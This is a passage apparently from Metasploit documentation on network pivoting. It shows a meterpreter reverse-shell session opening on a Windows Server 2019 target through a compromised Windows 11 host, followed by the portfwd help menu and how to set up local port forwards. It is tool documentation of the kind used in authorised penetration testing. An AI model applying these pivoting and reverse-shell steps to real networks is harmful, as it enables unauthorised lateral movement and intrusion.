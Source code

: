 After running the payload on the final target machine a new session will open, via the Windows 11 169.254.16.221 pivot.
```msf
msf6 payload(windows/x64/meterpreter/reverse_named_pipe) > [*] Meterpreter session 2 opened (Pivot via [172.19.182.171:4578 -> 169.254.16.221:49674]) at 2022-06-09 13:34:32 -0500

msf6 payload(windows/x64/meterpreter/reverse_named_pipe) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  WIN11\msfuser @ WIN11          172.19.182.171:4578 -> 172.19.185.34:49674 (172.19.185.34)
  2         meterpreter x64/windows  WIN2019\msfuser @ WIN2019      Pivot via [172.19.182.171:4578 -> 172.19.185.34:49674]
                                                                                 (169.254.204.110)

```
## Pivoting External Tools

### portfwd
*Note: This method is discouraged as you can only set up a mapping between a single port and another target host and port, so using the socks module below is encouraged where possible. Additionally this method has been depreciated for some time now.*

#### Local Port Forwarding
To set up a port forward using Metasploit, use the `portfwd` command within a supported session's console such as the Meterpreter console. Using `portfwd -h` will bring up a help menu similar to the following:

```msf
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
meterpreter >
```

To add a port forward, use `portfwd add` and specify the `-l`, `-p` and `-r` options at a minimum to specify the local port to listen on, the report port to connect to, and the target host to connect to respectively.
